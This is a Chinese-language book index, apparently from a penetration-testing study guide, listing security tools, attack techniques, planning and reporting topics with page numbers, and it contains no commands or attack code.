* `FOCA`（使用收集的档案对组织进行指纹识别）, 45
* 后续行动, 207
* 脚本中的 `for` 循环, 170
* `foremost` 工具, 156
* HTML 表单, 130, 232
* 转发流量, 236
* 分片攻击, 114
* 分片数据包, 148
* 无线设备的频率, 127, 229
* `FTK` 工具, 156
* FTP
  * 端口, 49, 108
  * 不安全服务, 119
* FTPS, 204
* 完全公开, 68
* 全盘加密, 208, 247
* 全知测试, 29, 33
* 完整扫描
  * 描述, 224
  * 示例, 70–72
  * 信息收集, 86
* 模糊测试
  * 描述, 75, 78
  * 工具, 157
## G
* ARP 欺骗中的网关地址, 128, 228
* GLBA（格雷姆-里奇-布莱利法案）, 23, 220
* 基于目标的评估, 13, 218
* 目标重新排序, 188
* Kerberos 中的黄金票据, 155
* 政府承包商目标, 7
* 格雷姆-里奇-布莱利法案（GLBA）, 23, 220
* 灰盒评估
  * 示例, 10–11
  * 内部攻击, 218
  * 端口, 49–50
  * 交战规则, 33
  * 范围界定, 24–25
* `grep` 命令, 148
* 组策略
  * `cPassword` 属性, 120
  * 加固用户账户, 201–202
  * 报告和通信, 196–199
  * 技术解决方案, 194
## H
* 黑客思维, 26


## H
* 黑客行动主义攻击
  * 描述, 39, 220
  * 示例, 6–7
  * 威胁风险, 14
* 隐蔽扫描中的握手, 71
* 硬编码凭据, 119
* 系统加固, 201–204, 208, 246
* hashcat 工具, 157
* 哈希密码
  * 加盐, 199
  * `SAM` 数据库, 121
* 彩虹攻击中的哈希, 87
* 健康保险流通与责任法案 (HIPAA)
  * 描述, 220
  * 与医疗相关的合规, 23
* 电子邮件服务器的 `HELO` 命令, 54
* 隐藏的 HTML 元素, 119
* 隐藏利用, 126
* 高漏洞类别, 79
* 劫持攻击
  * `DLL`, 122
  * 会话, 116, 135, 232
* HIPAA (健康保险流通与责任法案)
  * 描述, 220
  * 与医疗相关的合规, 23
* 历史记录
  * `bash`, 234
  * 密码, 196
  * 工具, 174
* `history -c` 命令, 132
* `HKEY_CURRENT_USER` 键, 131
* Hopper 工具, 156
* VLAN 之间跳转, 113
* 用于区域传输的 `host` 命令, 75
* 主机扫描, 142–144, 146–147, 149
* hping 实用程序
  * 活动连接, 154, 237
  * 自定义数据包, 76
  * 远程系统, 175, 235
* HSTS (HTTP 严格传输安全)
  * 身份验证, 209, 248
  * SSL 剥离, 111
* HTML
  * 表单, 130, 232
  * 隐藏元素, 119
* HTTP
  * 降级攻击, 229
  * `REST` 架构, 19
  * 服务器端口, 50
  * Zenmap 实用程序, 56
* HTTP `POST` 方法, 130, 232
* HTTP 严格传输安全 (HSTS)
  * 身份验证, 209, 248
  * SSL 剥离, 111
* Hydra 工具
  * 暴力破解攻击, 155, 172, 237
  * 登录尝试, 158
  * pass-the-hash 利用, 174, 238
* Hyper-V 工具, 201

## I
* ICSs (工业控制系统), 82
* IDA 工具, 156
* IDSs (入侵检测系统)
  * 发现扫描, 71
  * 完整扫描, 70
  * 隐蔽扫描, 72
* `if/then/else` 结构, 170, 240
* `IMAP` 电子邮件服务器端口, 49
* Impacket 工具
  * 广播消息, 178, 237
  * 低级网络访问, 161
  * 代理连接, 160
* 影响分析, 24
* 影响容忍度
  * 确定, 216
  * 示例, 34
  * 在规划和范围界定中, 36
* 冒充
  * APT, 217
  * 描述, 132, 227
  * 示例, 95–97
  * responder, 238
  * 工具, 177
* 内部开发的应用程序, 18
* 范围内参数
  * 资源, 34
  * 交战规则, 8
  * 范围界定, 13
* 非活动用户账户, 84, 223
* 移动设备更新不一致, 82
* 先前入侵的指标, 186–188
* 工业控制系统 (ICSs), 82
* 信息收集和漏洞识别
  * 资产分类, 78, 85
  * 横幅抓取, 60–61
  * 黑盒评估, 44–49
  * 暴力破解攻击, 87
  * bump keys, 69
  * `CAPEC`, 68
  * `Censys` 工具, 45
  * centralops.net 网站, 51–54
  * `CERT`, 67, 69, 87
  * 合规漏洞, 72, 74
  * 容器, 74
  * 凭据暴力破解, 82
  * 凭据扫描, 69–70, 73, 84, 86
  * 跨编译代码, 86
  * `CVE` 数据库, 68–69
  * `CVSS`, 79
  * 调试可执行文件, 67
  * 反编译可执行文件, 66–67
  * 默认管理员密码, 80
  * 字典攻击, 82, 85
  * 发现扫描, 70–71, 84
  * `DNS` 服务器端口, 50
  * `DNS` 区域传输, 75
  * 域控制器端口, 49
  * 垃圾箱挖掘, 46
  * 动态代码分析, 75
  * 电子邮件地址, 53
  * 电子邮件命名约定, 54
  * 电子邮件服务器 `HELO` 命令, 54
  * 嵌入式设备, 82–83
  * 枚举过程, 72–73
  * 高管简历, 46
  * 过期 SSL/TLS 安全证书, 78
  * 利用链, 81
  * 误报, 78, 86
  * 指纹生物识别扫描仪, 83, 85
  * `FOCA`, 45
  * `FTP` 服务器端口, 49
  * 全面披露, 68
  * 完整扫描, 70–72, 86
  * 模糊测试, 75, 78
  * 灰盒评估, 49–50
  * `hping` 实用程序, 76
  * `HTTP` 服务器端口, 50
  * `IMAP` 电子邮件服务器端口, 49
  * 非活动用户账户, 84
  * 内部网络, 77
  * IoT 设备, 82–83
  * IT 人员可用性, 77


* JPCERT, 67
* 实验室环境, 78
* LDAP 服务器端口, 50
* `Maltego` 工具, 45
* 制造设备和环境系统, 82
* 漏洞映射, 80
* 移动设备, 82
* `nmap` 实用程序, 45, 55, 76
* 无凭据漏洞, 70
* 非传统资产, 75
* `nslookup` 工具, 44, 48
* NVD, 68–69
* 旧系统, 80–81
* OSINT, 46–47, 87–88
* 数据包捕获, 65–66
* 被动扫描, 86
* `ping` 扫描, 70
* POS 系统, 83
* 新闻稿, 46
* 漏洞优先级排序, 79
* 射频发射, 65–66
* 彩虹表, 82, 87
* `recon-ng` 工具, 44
* SCADA 设备, 77, 85
* 扫描调度, 73
* 扫描节流, 73–74
* 安全更新, 80
* `Shodan` 工具, 45
* 智能物联网设备, 82–83
* SMB 文件服务器端口, 48
* SMTP 服务器端口, 48
* SSH 服务器端口, 50
* `sslyze` 工具, 63
* 静态代码分析, 75, 77, 84
* 隐蔽扫描, 71–72, 88
* TCP 端口, 76
* Telnet 服务器端口, 49
* 测试计划, 84
* `theHarvester` 工具, 44, 46, 76
* 时间要求, 222
* `traceroute` 命令, 50–51
* 漏洞排名, 69
* 支持网络的电视监视器, 75
* Web 服务器, 64, 68–69, 73, 83–84
* `whois` 工具, 44, 47, 77
* `Zenmap` 实用程序, 55–63
* 基础设施漏洞, 11
* 内在风险, 10
* Insane 模式计时选项, 147
* 不安全直接对象引用漏洞利用, 117
* 内部攻击
  * 描述, 31
  * 灰盒评估, 10, 218
  * 威胁风险, 14
* 完整性, 27
* 情报驱动防御模型, 38
* 内部网络扫描, 74, 77
* 内部团队, 25
* 内部测试, 34
* Internet 设备
  * `Censys` 工具, 239
  * `Shodan` 工具, 239
* 物联网 (IoT) 设备, 83, 226
* 国际刑警组织法规, 16
* 审问
  * 描述, 227
  * 示例, 95
* 社会工程学, 97
* 入侵检测系统 (IDSs)
  * 发现扫描, 71
  * 全面扫描, 70
  * 隐蔽扫描, 72
* 入侵防御系统 (IPSs)
  * 发现扫描, 71
  * 全面扫描, 70
* IoT (物联网) 设备, 83, 226
* IP 地址，黑名单, 30, 219
* IP 端口, 149
* IPSs (入侵防御系统)
  * 发现扫描, 71
  * 全面扫描, 70
* `iptables`, 203
* IPv6 主机, 106

## J
* 越狱移动设备, 82
* 干扰攻击, 115
* 日本，开放资源来源在, 67
* `Java` 源代码, 161
* 工作招聘信息, 46
* `John the Ripper` 工具, 154, 159
* JPCERT, 67

## K
* Karma 攻击, 113
* Kerberoasting, 121, 130
* Kerberos 漏洞利用
  * 描述, 116
  * 金票, 155
* 内核漏洞利用, 122
* 密钥管理系统, 34
* 键盘记录器, 135, 233
* `Kismet` 工具, 159

## L
* 实验室环境, 78
* LAPS (本地管理员密码解决方案), 196, 211, 246–247
* 交战规则中的法律审查, 8
* LDAP
  * 服务器端口, 50
  * SSL 启用, 121
* 经验教训, 210, 244
* 相似度因子, 100, 102
* 链路本地多播名称解析 (LLMNR) 协议
  * 特征, 106
  * 凭据查询, 133, 228
  * 安全风险, 107
* 监听器，`netcat`, 236
* 本地管理员密码解决方案 (LAPS), 196, 211, 246–247
* 本地文件包含, 118
* 本地安全机构子系统服务 (LSASS), 121
* 渗透测试规划和范围界定中的位置选择, 25
* 锁绕过
  * 描述, 103, 105
  * 门下工具, 130, 234
* 开锁
  * 描述, 103
  * 工具, 105
* 锁定，账户, 197–198
* 多因素身份验证中的登录, 247
* 日志
  * 专用服务器, 204
  * 目录遍历, 132
  * 最终结论, 13
  * 隐藏利用, 126
  * 工具, 158
* 低漏洞类别, 79
* LSASS (本地安全机构子系统服务), 121

## M
* MAC 地址
  * ARP 欺骗, 128, 228
  * 无线设备, 205
* 邮件传输代理 (MTAs), 108
* LLMNR 中的恶意主机, 107
* 恶意内部攻击者, 6


## M
*   `Maltego` 工具，45, 172
*   中间人 (MITM) 攻击
    *   ARP 欺骗，110
    *   攻击和利用，129
    *   描述，132, 228
    *   重放攻击，110
*   陷阱门，133, 234
*   制造设备和环境系统，82
*   映射漏洞，80–81
*   主服务协议 (MSAs)，12, 30, 39, 220
*   中等漏洞类别，79
*   `Medusa` 工具，155, 158
*   Metasploit 框架
    *   描述，161
    *   `msfconsole` 命令，173, 237
    *   `use auxiliary` 命令，177
*   报告中的方法论部分，183, 189
*   报告中的指标和度量，190
*   报告中的迁移策略，208
*   `Mimikatz` 工具
    *   Kerberos 金票，155
    *   哈希传递攻击，173, 238
    *   钓鱼，127
*   用于数据包捕获的镜像端口，66
*   缓解措施，21
*   MITM 攻击。`See` 中间人 (MITM) 攻击
*   移动设备
    *   工具，160–161
    *   弱点，82
    *   `Zenmap` 实用工具，58
*   用于射频发射的监控模式，65
*   MSAs (主服务协议)，12, 30, 39, 220
*   `msfconsole` 命令，173, 237
*   MTAs (邮件传输代理)，108
*   多因素身份验证
    *   示例，245
    *   登录，247
    *   建议，208–212
    *   类型，199–201
*   跨国银行目标，7

## N
*   NAC。`See` 网络访问控制 (NAC)
*   国家级威胁
    *   描述，31, 217
    *   示例，6–7
    *   威胁风险，14
*   国家漏洞数据库 (NVD)
    *   描述，222
    *   漏洞识别，68–69
    *   漏洞排名，69
*   `NBTSTAT` 命令
    *   服务器，106
    *   工作站，106
*   `nc` 命令，177
*   `ncat` 工具
    *   bind shell 利用，239
    *   加密，160
    *   shell 会话，156
*   NDAs (保密协议)
    *   描述，12
    *   目的，29, 39
*   `Nessus` 工具，87, 154, 221
*   NetBIOS 名称服务，172, 236
*   `netcat` 工具
    *   bind shell 利用，239
    *   监听器，175, 236
    *   反向 shell 利用，160, 239
*   `netstat` 工具，203
*   网络访问，内部测试，34
*   网络访问控制 (NAC)
    *   攻击和利用，112–113
    *   证书钉扎，33
    *   描述，20
    *   隔离笔记本电脑，30
*   网络图
    *   资产子网，223
    *   服务器访问，17, 215
*   网络加固，202
*   网络打印机，61
*   `Nikto` 工具，155–157
*   `nmap` 实用工具
    *   活动连接，237
    *   示例，142–154
    *   内部服务器，74
    *   大型子网，76
    *   操作系统，55, 76
    *   OS 指纹识别，177, 236
    *   端口，175
    *   远程系统，178
    *   扫描限速，74
    *   T1 线路，74
    *   TCP 端口，178, 235
    *   `Telnet`，235
    *   Web 服务器，45
*   竞业禁止协议，12
*   无凭证漏洞，70
*   保密协议 (NDAs)
    *   描述，12
    *   目的，29, 39
*   非传统资产，75
*   数据规范化，183, 188
*   `nslookup` 工具
    *   IP 地址，44
    *   OSINT，48
    *   侦察，154
*   NTLM v2 哈希，173
*   空会话，133
*   NVD (国家漏洞数据库)
    *   描述，222
    *   漏洞识别，68–69
    *   漏洞排名，69

## O
*   离职流程，193
*   禁止访问系统，25
*   `Telnet` 服务中的开放端口状态，145
*   开放端口，106
*   开源情报 (OSINT)
    *   描述，87, 220–221
    *   信息收集，46–47
    *   组织，88
    *   执行，127
    *   `SET` 和 `Shodan`，237
    *   工具，172
*   操作系统
    *   确定，142
    *   内核利用，122
    *   端口，76
    *   版本，55
*   有组织犯罪攻击者
    *   示例，6–7
    *   资源和专业知识，31
    *   威胁风险，14
*   OS 指纹识别，177, 236
*   OSINT。`See` 开源情报 (OSINT)
*   超出范围的系统，8
*   外部攻击，10
*   `OWASP ZAP` 工具，154, 160

## P
*   数据包捕获工具，65–66
*   分页文件，202
*   参数污染，117
*   Paranoid 模式计时选项，147
*   部分知识测试，33
*   哈希传递利用
    *   描述，110
    *   `Hydra` 工具，174, 238
    *   `Mimikatz` 工具，238
    *   工具，173


## 被动侦察
175, 236

## 被动扫描
86, 220

## `passwd` 命令
203

## 密码
-   暴力破解攻击，82
-   `CeWL`，158
-   企业策略，36, 217
-   `cPassword` 属性，120
-   默认，80
-   字典攻击，82, 85
-   组策略，11
-   加固用户账户，202
-   `hashcat`，157
-   已哈希，121
-   LAPS，211, 246–247
-   多因素身份验证，200
-   PCI-DSS 要求，22–23
-   彩虹表攻击，82, 87, 226
-   报告，196–199, 204–205, 208
-   `responder`，161
-   SCADA 设备，85, 227
-   强，85, 226, 247
-   工具，154–155
-   VPN，209
-   `Zenmap` 实用工具，57

## `Patator` 工具
155

## 支付卡产业数据安全标准 (PCI-DSS)
-   合规漏洞，32, 72, 74
-   渗透测试规划，22–23
-   测试频率，28

## `Peach` 工具
157

## 渗透测试规划和范围界定
-   攻击者，14
-   协议，32
-   修改，27–28
-   API 文档，17
-   APT，30, 37
-   授权，34, 39
-   可用性问题，27
-   黑盒评估，5, 10–11, 20, 24–25, 33, 35
-   黑名单 IP 地址，30
-   预算，36
-   证书固定，20, 38
-   公司策略，36
-   基于合规的评估，4, 14
-   保密性，24, 27, 36
-   加密模块，23
-   网络杀伤链模型，38
-   拒绝，27–28
-   披露，27–28
-   外部团队，26
-   设施地图，17
-   首要任务，4
-   基于目标的评估，13
-   政府承包商目标，7
-   灰盒评估，4–5, 10–11, 24–25, 33
-   黑客思维，26
-   骇客行动主义攻击，6–7, 39
-   医疗相关组织，23
-   影响分析，24
-   影响容忍度，34, 36
-   内部开发的应用程序，18
-   范围内参数，13
-   内部人员攻击，31
-   完整性，27
-   内部团队，25–27
-   内部测试，34
-   国际刑警组织法规，16
-   日志文件，13
-   恶意内部人员攻击者，6
-   缓解，21
-   MSAs，12, 30, 39
-   跨国银行目标，7
-   NAC，20, 30, 33
-   国家级威胁，6–7, 31
-   NDAs，12, 29, 39
-   网络图，17
-   禁止访问系统，25
-   有组织犯罪攻击者，6–7, 31
-   密码，36
-   PCI-DSS 标准，22–23, 28, 32
-   绩效工作说明书，13
-   个人信息，23
-   合并前评估，14
-   上市公司，23
-   采购订单，12
-   红队评估，4, 14, 31, 38
-   补救时间表，25
-   报告描述，25
-   报告项目，37
-   REST 架构，19
-   风险接受，15, 21
-   风险规避，20
-   风险讨论，29
-   风险转移，21
-   参与规则，8–11, 32, 35
-   示例应用程序请求，18
-   范围蔓延，15, 32, 37–38
-   范围定义，7
-   范围内资源，34
-   范围界定，36
-   脚本小子，6–7, 29, 32
-   SDK 文档，17
-   服务集标识符，39
-   签署授权，33
-   SOAP，17–18, 35
-   SSIDs，31
-   目标声明，13
-   工作说明书，12, 29, 36
-   供应链评估，14
-   Swagger 框架，18, 37
-   威胁建模，15
-   运输，15–16
-   白盒评估，4–5, 7, 11, 17, 19, 29, 33
-   白名单，35
-   书面授权，11
-   WSDL，16, 19
-   XSD，19

## 基于人员缓解
193–195

## 绩效工作说明书 (PWSs)
13

## 权限
-   权限提升，120
-   参与规则，8, 10


## P
* 安全保护，214–215
* 不安全，122
* 持久性。*参见* 利用持久性
* 个人信息，23
* 钓鱼攻击
  * 攻击和利用，127
  * 权威诉求，233
  * 描述，94，96
  * 电子邮件利用，11
  * `theHarvester` 工具，76
* 物理访问，PCI-DSS 要求，22
* 搭便车
  * 描述，102，104
  * 陷阱门，133，234
* 多因素身份验证中的 PIN，199–200，210–211，245
* ping 扫描，70
* 销售点（POS）系统，83
* 计时选项中的礼貌模式，148
* 政治原因，7，15
* 端口
  * 关闭，202
  * DNS 服务器，50
  * 域控制器，49
  * FTP 服务器，49，108
  * HTTP 服务器，50
  * IMAP 电子邮件服务器，49
  * LDAP 服务器，50
  * 镜像，66
  * `nmap`，144–146，175，235
  * 开放，106
  * 报告，208
  * SMB 文件服务器，48
  * SMB 协议，107
  * SMTP 服务器，48
  * SNMP 协议，107
  * SSH 服务器，50
  * TCP，76，175，178，235
  * Telnet 服务器，49，224
  * TFTP 服务器，49
  * Web 服务器，224–225
* POS（销售点）系统，83
* POs（采购订单），12
* 参与后清理流程，206，211，244
* `PowerShell` 脚本，162–167，169
  * 数组，177，241
  * 远程脚本，174–175，241
  * 变量，170
* `PowerSploit` 工具，155
* 合并前评估，14
* 预启动执行环境（PXE），121
* 新闻稿，46
* 打印机
  * 共享，107
  * `Zenmap` 实用工具，61
* 先前的未经授权访问，207，248
* 漏洞优先级排序，79
* 权限提升攻击
  * 权限，120
  * 交战规则，10
  * 未加引号的服务路径，134，233
* 流程解决方案，193–195
* 数据包捕获的混杂模式，66
* 代理服务器，149
* `proxychains` 工具，157
* `PsExec` 实用工具
  * 连接，131
  * 控制台访问，124，234
* 上市公司，23
* 采购订单（POs），12
* PWSs（绩效工作说明），13
* PXE（预启动执行环境），121
* `Python` 类，测试工具，161
* `Python` 脚本，162，164–167
  * `if/then/else` 结构，178，240
  * 变量，171
## R
* 竞态条件，135，232
* 射频发射，65–66
* 彩虹表攻击
  * 与暴力破解攻击对比，87，226
  * 密码，82，198，226
* 随机主机扫描，149
* `rcp` 实用工具，204
* RDP，124
* 只读账户，84，223
* 实时操作系统（RTOS），227
* 建议。*参见* 报告和沟通
* `recon-ng` 工具，44，48
* 侦察
  * 网络杀伤链模型，38
  * `nmap`，154
  * `Shodan`，175
* 红队评估
  * 描述，4
  * 内部测试，14
  * 特定漏洞，31，38
* 重定向
  * 客户端请求，240
  * 钓鱼邮件，116
  * URL，209，247
* 反射攻击，117
* `reg add` 命令，127
* `reg save` 命令，126
* 利用持久性中的注册表项，131
* 脚本中的关系运算符，165–167
* 中继攻击，111
* 补救时间表，25
* 远程代码执行，123
* 远程文件包含，118
* 通过 SSH 访问远程服务器，204
* 远程系统和管理
  * 描述，124–125
  * `hping` 实用工具，175，235
  * `nmap`，178
  * `PowerShell` 脚本，241
  * `WMI`，235
* 重复攻击，115
* 重放攻击，110
* 报告和沟通
  * 管理员凭据，196
  * 发现的证明，206
  * 身份验证，199–201，208–212
  * 客户接受，206
  * 结论，189–191，243
  * 关键发现，186–187，208，210
  * 关键漏洞，243，248–249
  * CVSS 分数，207
  * 冲突协调，183–185，249
  * 降级，183–185，249
  * 处置，192–193
  * 文档，205–207
  * 执行摘要，189，208，211，242–243
  * 发现和补救，190–191
  * 跟进行动，207
  * 目标重新优先级排序，188


* 系统加固, 201–204, 208
* 即时报告, 37
* 先前入侵的指标, 186–188
* 经验教训, 210, 244
* 方法论部分, 183, 189
* 指标和度量, 190
* 迁移策略, 208
* 数据规范化, 183, 188
* 密码, 196–198, 211
* 基于人员的缓解, 193–195
* 端口, 208
* 参与后清理流程, 206, 211
* 流程解决方案, 193–195
* 建议征求书, 210
* 风险承受能力, 209
* 态势感知, 183–185
* SQL 注入攻击, 200–201
* 阶段, 186–187, 249
* 存储需求, 191–192
* 系统可用性问题, 248
* 技术解决方案, 193–195, 211, 245
* 测试计划, 25
* 受信任代理, 185
* 不必要的服务, 211
* URL 重定向, 209
* 用户账户, 201
* 供应商代表, 205
* VPN, 209
* 漏洞优先级, 207
* 无线设备, 205

* 表述性状态转移（REST）架构, 19
* 建议征求书（RFPs）, 210, 245
* 设置后重置账户锁定计数器, 197
* 重置数据包, 145
* Responder 工具
  * 客户端请求重定向, 240
  * 冒充, 238
  * NetBIOS 名称服务, 172, 236
  * 请求重定向, 161
  * 资源冒充, 177
* REST（表述性状态转移）架构, 19
* 参与规则中的结果沟通, 8
* 简历, 46
* Ret2libc 权限, 120
* 视网膜扫描, 199
* 反编译工具, 156
* 反向 Shell 漏洞利用
  * `bash` 脚本, 173, 242
  * `netcat`, 160, 239
* RFID 克隆, 114–115
* RFID 接近读卡器, 200
* RFPs（建议征求书）, 210, 245
* RID 循环
  * 描述, 230
  * 空会话, 133
* 风险接受, 15, 21, 218
* 风险规避, 20, 218
* 风险讨论, 29
* 执行摘要中的风险等级, 243
* CVSS 中的风险评分, 225, 242
* 风险承受能力
  * 发现和补救, 242
  * 报告和沟通, 209
* 风险转移, 21
* ROE（参与规则）
  * 项目, 214
  * 测试计划和范围界定, 8–11, 32, 35
  * 白盒评估, 214
* 程序执行的 root, 120
* 手机越狱, 82
* 路由器配置, 34
* RPC/DCOM, 123
* RST 数据包, 71
* RTOS（实时操作系统）, 227
* Ruby 脚本, 162, 165–168, 171
* 参与规则（ROE）
  * 项目, 214
  * 测试计划和范围界定, 8–11, 32, 35
  * 白盒评估, 214

## S

* SaaS 服务提供商, 34
* 对哈希密码加盐, 199
* SAM 数据库, 121
* 示例应用程序请求, 18
* 用于站点验证的 SAN（主题备用名称）, 131
* 沙箱逃逸利用, 123
* 清理用户输入, 201
* 萨班斯-奥克斯利法案（SARBOX）, 23
* SAST（静态应用程序安全测试）工具, 157
* SCADA 设备。*参见*监控与数据采集（SCADA）设备
* 稀缺因素, 99, 101
* 计划
  * 漏洞利用持久性, 122, 125
  * 测试时间, 73, 84, 223
* 范围
  * 定义, 7
  * 资源, 215
* 范围蔓延, 15, 32, 37–38, 219
* 范围界定。*参见*渗透测试计划和范围界定
* `scp` 命令, 204
* 脚本小子
  * 描述, 6–7
  * 专业知识, 32
  * 威胁风险, 14, 29
* 脚本
  * `if/then/else` 结构, 240
  * 概述, 162–172, 176–178
  * 故障排除, 240–241
* SDK（软件开发工具包）文档, 17
* `Searchsploit` 工具, 161
* 安全 Shell（SSH）
  * Linux, 203
  * 端口, 50
  * 远程服务器访问, 204
  * 远程系统管理, 124
  * 流量转发, 176, 236
* 安全意识培训, 209, 247
* 安全证书，已过期, 78
* LLMNR 中的安全控制, 107
* CERT 中的安全事件, 67
* 安全更新，缺失, 80
* 串行控制台连接, 123
* 服务器消息块（SMB）协议
  * 文件服务器端口, 48
  * 功能, 107
  * 弱点, 107
* 服务集标识符（SSIDs）
  * 恶意双胞胎攻击, 113
  * Karma 攻击, 113
  * 有组织犯罪攻击者, 31
  * 渗透测试计划和范围界定, 39
* 服务
  * 禁用, 202
  * 已安装, 55


* 卸载，201
* 版本号，145
* SERVICES 共享，131
* 会话劫持攻击
  * cookie，135，232
  * 描述，116
* SET（社会工程师工具包），156
  * OSINT，237
  * 针对性钓鱼攻击，133，228
* SGID 特殊权限，120
* 共享文件，107
* shell 会话，删除，206
* shell 升级
  * 示例，133，233
  * 沙箱逃逸利用，123
* Shodan 工具
  * 互联网设备，178，239
  * 物联网设备，45
  * OSINT，172，237
  * 被动侦察，175，236
* 肩窥，96，98
* 碎纸机，192–193
* 交战规则中的签名，10
* 签署机构，33
* 简单邮件传输协议（SMTP）
  * 攻击和利用，108
  * 中继，108
  * 服务器端口，48
* 简单对象访问协议（SOAP）
  * 文档，17–18
  * 消息协议，215
  * 项目文件，35
* 站点验证，SAN 用于，131
* 态势感知，183–185
* 智能卡，210–211，245
* 智能物联网设备，82–83
* 击碎闪存驱动器，192
* SMB（服务器消息块）协议
  * 文件服务器端口，48
  * 功能，107
  * 弱点，107
* 短信钓鱼攻击，94
* SMS 钓鱼攻击，97
* 简单邮件传输协议（SMTP）
  * 攻击和利用，108
  * 中继，108
  * 服务器端口，48
* 嗅探器，108
* SNMP 协议
  * 攻击和利用，107
  * SCADA 设备，85，227
* 简单对象访问协议（SOAP）
  * 文档，17–18
  * 消息协议，215
  * 项目文件，35
* 社会工程师工具包（SET），156
  * OSINT，237
  * 针对性钓鱼攻击，133，228
* 社会工程
  * 权威诉求，128，130，227
  * 冒充，227
  * 审问，95，97，227
  * 钓鱼攻击，233
  * SET，156
  * 蹭门，81
* 社交媒体帖子，46
* 社会认同因素，99，101
* 软件开发工具包（SDK）文档，17
* 你所是的身份验证，199
* 你所拥有的身份验证，211–212，246
* 你所知道的身份验证，199
* 你所处的身份验证，199–200
* SOOs（目标陈述），13
* SOWs（工作说明书）
  * 内容，29
  * 描述，12
  * 目标列表，36，216
* 针对性钓鱼攻击
  * 凭证化漏洞扫描，73
  * 描述，94
  * 示例，127
  * 侦察，97
  * SET 工具，133，228
* 伪造的 IP 地址，149
* SQL 注入攻击
  * 描述，115
  * 报告，200–201
  * 风险最小化，132–133，230
  * 系统加固，246
* Sqlmap 工具
  * 爆破攻击，154
  * 数据库服务器，179，239
* SSH。*参见* 安全外壳（SSH）
* SSHv1，119
* SSID。*参见* 服务集标识符（SSID）
* SSL 启用的 LDAP，121
* SSL 剥离攻击
  * 描述，111
  * 降级，111
* SSL/TLS 安全过期证书，78
* sslyze 工具，63
* 阶段通信触发，186–187，249
* 目标陈述（SOOs），13
* 工作说明书（SOWs）
  * 内容，29
  * 描述，12
  * 目标列表，36，216
* 静态应用程序安全测试（SAST）工具，157
* 静态代码分析
  * 描述，223
  * 源代码，75，77
  * Web 应用程序，84
* 隐蔽扫描
  * 描述，88，224
  * SYN 数据包，71
  * 三次握手，71
* 粘滞位，120
* 内部测试的存储访问，34
* 报告中的存储要求，191–192
* 使用可逆加密设置存储密码，198
* 存储型跨站脚本（XSS）
  * 描述，128
  * 优先级排序，232
* 存储/持久攻击，117
* 强密码，85，226，247
* 主体备用名称（SAN）用于站点验证，131
* sudo 程序，120
* SUID 特殊权限，120
* 监控与数据采集（SCADA）设备
  * 爆破攻击，85
  * 中断潜力，77
  * 制造设备和环境系统，82
  * 密码，227
  * 白名单设备，113
* 供应链评估，14
* Swagger 框架
  * API 测试，37，215
  * REST Web 服务，18
* 交换机
  * 数据包捕获，66
  * VLAN 中的欺骗，113
* SYN 数据包，71
* SYN 端口扫描，142
* 系统可用性问题，27，248


# 索引

## S
* 系统加固, 201–204, 208, 246

## T
* T1 线路, 74
* `tail` 命令, 172
* 尾随, 81, 102, 104
* SOW 中的目标列表, 36, 216
* 目标组织，授权, 34
* 任务计划程序, 125
* TCP ACK 扫描, 143–144
* TCP 连接扫描, 143
* TCP 端口
  * `hping`, 175
  * `nmap`, 178, 235
  * 操作系统, 76
* TCP SYN 洪水攻击, 128, 232
* TCP 三次握手, 71
* `tcpdump` 实用程序, 65
* 团队, 25–27
* 技术解决方案, 193–195, 211, 245
* `Telnet` 服务
  * 横幅抓取, 60–61
  * `nmap` 实用程序, 235
  * 端口, 49, 224
  * SMTP, 108
  * 不安全服务, 119
* 开锁用张力扳手, 105
* 删除测试人员创建的凭据, 206
* 测试计划, 73, 84, 223
* TFTP 服务器端口, 49
* `theHarvester` 工具
  * 身份验证凭据, 46
  * 电子邮件地址, 76
  * IP 地址, 44
* 威胁建模, 15
* 三因素身份验证 (3FA), 200
* 三次握手, 71
* 节流扫描, 73–74
* 检查时到使用时 (TOCTTOU), 135, 232
* 交战规则中的时间线, 8
* `nmap` 中的计时选项, 147–148
* TLSv1_1, 64
* TLSv1_2, 64
* TOCTTOU（检查时到使用时）, 135, 232
* 工具概览
  * `AFL`, 157
  * `Aircrack-ng`, 155
  * `APK Studio`, 157, 161
  * `APKX`, 157, 161
  * `BeEF`, 156, 174
  * `Cain and Abel`, 154
  * `Censys`, 179
  * `CeWL`, 158, 174
  * `Dirbuster`, 158
  * `Drozer`, 160
  * `Empire`, 155
  * `Findsecbugs`, 157
  * `foremost`, 156
  * `FTK`, 156
  * `hashcat`, 157
  * `Hopper`, 156
  * `hping`, 154, 175
  * `Hydra`, 155, 158, 172, 174
  * `IDA`, 156
  * `Impacket`, 160–161, 178
  * `John the Ripper`, 154, 159
  * `Kismet`, 159
  * `Maltego`, 172
  * `Medusa`, 155, 158
  * `Metasploit`, 161, 173, 177
  * `Mimikatz`, 155, 173
  * `ncat`, 156, 160
  * `Nessus`, 154
  * `netcat`, 158, 160, 175
  * `Nikto`, 155–157
  * `nmap`, 142–154, 175, 178
  * `nslookup`, 154
  * `OWASP ZAP`, 154, 160
  * `Patator`, 155
  * `Peach`, 157
  * `PowerShell`, 174–175
  * `PowerSploit`, 155
  * `proxychains`, 157
  * `Responder`, 161, 177
  * 脚本, 162–172, 176–178
  * `Searchsploit`, 161
  * 安全 Shell, 176
  * `SET`, 156
  * `Shodan`, 172, 175, 178
  * `SQLmap`, 154
  * `Sqlmap`, 179
  * `Telnet` 服务, 145
  * `W3AF`, 155
  * `whois`, 154, 159
  * `WiFite`, 159
  * `YASCA`, 157
* `traceroute` 命令, 50–51
* 商业机密, 37
* 运输测试软件和硬件, 15–16
* 特洛伊木马, 126
* 受信任的代理, 185
* 双因素身份验证 (2FA), 200

## U
* UDP
  * 连接扫描, 143
  * 主机扫描, 144
  * 端口扫描, 146
* 通过 PXE 的无人值守安装, 121
* 不可用系统，报告, 207, 248
* 门下工具, 234
* 不必要的服务
  * 禁用, 202, 208, 211, 246
  * 卸载, 201
* 未加引号的服务路径
  * 描述, 122
  * 权限提升攻击, 134, 233
* 无响应服务器，报告, 37
* 不安全的编码实践, 118–119
* 不安全的文件和文件夹权限, 122
* 不安全服务, 119
* `until` 脚本中的循环, 170
* 内核漏洞的更新, 122
* 升级
  * 密码套件, 247
  * 销售点系统, 83
  * shell, 133, 233
* 紧迫性因素, 99–101
* URL 重定向, 209, 247
* USB 钥匙投放, 96–97
* 用户账户
  * 利用持久性, 126
  * 加固, 201
  * 非活动, 223
* SQL 注入攻击中的用户输入, 200–201

## V
* 脚本中的变量, 170–172
* 供应商代表, 205
* 详细错误消息, 118
* 版本号
  * `nmap` 实用程序, 145
  * 操作系统, 55
* 虚拟机 (VM) 转义, 123


## V
